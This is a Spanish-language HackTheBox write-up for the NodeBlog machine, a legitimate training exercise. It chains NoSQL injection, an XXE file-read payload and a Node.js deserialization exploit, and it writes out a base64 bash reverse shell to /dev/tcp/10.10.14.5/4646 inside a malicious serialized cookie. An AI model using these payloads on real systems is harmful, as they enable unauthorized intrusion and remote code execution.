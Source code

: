 ```yaml
---
layout: single
title: NodeBlog - HackTheBox
excerpt: "En este writeup se documenta la explotación de la máquina NodeBlog en HackTheBox, destacando vulnerabilidades en NoSQL Injection, XML External Entity (XXE) y deserialización insegura en Node.js"
date: 2025-02-25
classes: wide
header:
  teaser: /assets/images/NodeBlog/NodeBlog.png
  teaser_home_page: true
  icon: /assets/images/hackthebox.webp
categories:
  - HackTheBox
tags:  
  - NoSQL Injection
  - XXE
  - Deserialización
---
```


![](/assets/images/NodeBlog/NodeBlog.png){:style="max-width:450px;height:auto;"}

## Resumen

En este writeup se documenta la explotación de la máquina NodeBlog en HackTheBox. La máquina presenta múltiples vulnerabilidades, incluyendo inyección NoSQL, inclusión de entidades externas XML (XXE) y deserialización insegura en Node.js, que permiten obtener acceso al sistema y escalar privilegios hasta root.

## Reconocimiento

El servidor expone los siguientes servicios:

- SSH en el puerto 22

- Servicio web en el puerto 5000

Realizamos un escaneo de puertos con nmap para identificar los servicios disponibles, también ejecutamos scripts básicos de reconocimiento con nmap:

![](/assets/images/NodeBlog/Reconocimiento-Puertos.png)

## Página Web

El servicio web en el puerto 5000 muestra un blog con una página de inicio de sesión vulnerable a NoSQL Injection.

![](/assets/images/NodeBlog/Web.png)

![](/assets/images/NodeBlog/Web-Login.png)

Al interceptar la petición de inicio de sesión con BurpSuite, vemos que permite autenticarse mediante inyección NoSQL.

![](/assets/images/NodeBlog/NoSQL.png)

## Reverse Shell

Utilizando BurpSuite, capturamos la cookie de sesión del usuario admin.

![](/assets/images/NodeBlog/NoSQL-Cookie.png)

Al ingresar la cookie en el navegador o realizar la petición con BurpSuite, accedemos como administrador:

![](/assets/images/NodeBlog/Inicio-Sesion-Admin.png)

La aplicación permite subir archivos XML. Exploramos la vulnerabilidad XXE (XML External Entity) creando un archivo XML que lea el contenido de /opt/blog/server.js, ruta identificada en las respuestas del servidor durante la inyección NoSQL.

    <?xml version="1.0"?>
    <!DOCTYPE data [
        <!ENTITY file SYSTEM "file:///opt/blog/server.js">
    ]>
    <post>
    <title>LFI Post</title>
    <description>Read File</description>
    <markdown>&file;</markdown>
    </post>

Al subirlo, obtenemos el código fuente de server.js.

![](/assets/images/NodeBlog/Funcion-Deserializar-Cookie.png)

Aquí observamos que la función authenticated deserializa la cookie de sesión sin validación, permitiendo la ejecución de código arbitrario.

## Exploit de Deserialización en Node.js

Generamos una payload para una reverse shell:

    echo "bash -i >& /dev/tcp/10.10.14.5/4646 0>&1" | base64 -w 0; echo

Resultado:

    YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC41LzQ2NDYgMD4mMQo=

Generamos una cookie maliciosa:

    {"rce":"_$$ND_FUNC$$_function (){require('child_process').exec('echo YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC41LzQ2NDYgMD4mMQo= | base64 -d | bash',function(error, stdout, stderr) { console.log(stdout) });}()"}

Resultado (Cookie):

    %7b%22%72%63%65%22%3a%22%5f%24%24%4e%44%5f%46%55%4e%43%24%24%5f%66%75%6e%63%74%69%6f%6e%20%28%29%7b%72%65%71%75%69%72%65%28%27%63%68%69%6c%64%5f%70%72%6f%63%65%73%73%27%29%2e%65%78%65%63%28%27%65%63%68%6f%20%59%6d%46%7a%61%43%41%74%61%53%41%2b%4a%69%41%76%5a%47%56%32%4c%33%52%6a%63%43%38%78%4d%43%34%78%4d%43%34%78%4e%43%34%31%4c%7a%51%32%4e%44%59%67%4d%44%34%6d%4d%51%6f%3d%20%7c%20%62%61%73%65%36%34%20%2d%64%20%7c%20%62%61%73%68%27%2c%66%75%6e%63%74%69%6f%6e%28%65%72%72%6f%72%2c%20%73%74%64%6f%75%74%2c%20%73%74%64%65%72%72%29%20%7b%20%63%6f%6e%73%6f%6c%65%2e%6c%6f%67%28%73%74%64%6f%75%74%29%20%7d%29%3b%7d%28%29%22%7d

Iniciamos un listener con netcat, luego insertamos la cookie en la web:

![](/assets/images/NodeBlog/Reverse-Shell.png)

Obtenemos acceso a la máquina y encontramos la bandera 'user', se encuentra en el directorio 'home' del usuario 'admin':

![](/assets/images/NodeBlog/User-Flag.png)

## Escalada de Privilegios

Si miramos los puertos que están corriendo en el sistema, podemos ver que el puerto 27017 está activo, este puerto por defecto se suele utilizar para MongoDB:

![](/assets/images/NodeBlog/Puertos.png)

Ejecutamos Mongo y buscamos el usuario 'admin', ahí encontraremos una contraseña:

![](/assets/images/NodeBlog/Root-Pass.png)

Si intentamos iniciar sesión como el usuario privilegiado 'root' añadiendo esa contraseña, podremos iniciar sesión:

![](/assets/images/NodeBlog/Sudo-Su.png)

La bandera 'root' se encuentra en el directorio 'home' del usuario 'root':

![](/assets/images/NodeBlog/Root-Flag.png)

### Conclusión

La máquina NodeBlog de HackTheBox es un excelente ejemplo de cómo múltiples vulnerabilidades pueden encadenarse para lograr acceso y escalada de privilegios en un sistema. A través de la explotación de NoSQL Injection, logramos autenticarnos como administrador; con XXE, accedimos al código fuente de la aplicación; y finalmente, mediante deserialización insegura en Node.js, obtuvimos una reverse shell.

El análisis posterior de la base de datos MongoDB reveló credenciales que permitieron elevar privilegios a root, completando la explotación de la máquina. Este reto resalta la importancia de aplicar buenas prácticas de seguridad en el desarrollo web, como la validación de entradas, el uso seguro de la deserialización y la restricción de permisos en bases de datos.

